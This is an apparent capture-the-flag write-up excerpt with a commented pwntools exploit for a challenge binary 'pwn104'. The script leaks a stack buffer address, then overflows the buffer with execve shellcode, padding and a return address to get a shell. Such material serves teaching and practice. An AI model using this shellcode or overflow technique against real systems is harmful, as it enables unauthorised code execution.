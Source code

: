 ```python
from pwn import *

context.binary = binary = ELF("./pwn104")

shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

p = process()
context.log_level = 'debug'


# list index out of range error, uncomment the p.recv() below
# a very common error because sometimes the output a given binary generates locally differs a little bit of what it generated remotely because over the network, sometimes bytes get interpreted slightly different
# p.recv()

# parsing its output and store it in output variable that we will later work with
output = p.recv()

# in this case, we are splitting the output by the "at" byte
# [1] means retrieve second result from the array
# strip means getting rid of white spaces
# decode as utf-8 means we don't want to work with bytes, we want actual string
# finally, convert it into integer and parse as hex number
buffer_address = int(output.split(b"at")[1].strip().decode("utf-8"), 16)

# structure will be [shellcode] + [padding] + [ret]
payload = flat(
	shellcode,
  # minus the length of the shellcode which is 27 bytes, so that the padding is enough 
	b'A' * (88 - len(shellcode)), 
  # jumps directly to the shellcode and starts executing it
	buffer_address
)

# Hence the whole payload is b'1\xc0H\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xffH\xf7\xdbST_\x99RWT^\xb0;\x0f\x05AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'

p.sendline(payload)

p.interactive()
```

The first result and second result based on the line `int(output.split(b"at")[1].strip().decode("utf-8"), 16)`, use `[1]` (means second result as computer starts counting at 0).

![Desktop View](/assets/posts/pwn/image28.png){: width="500" height="500" }
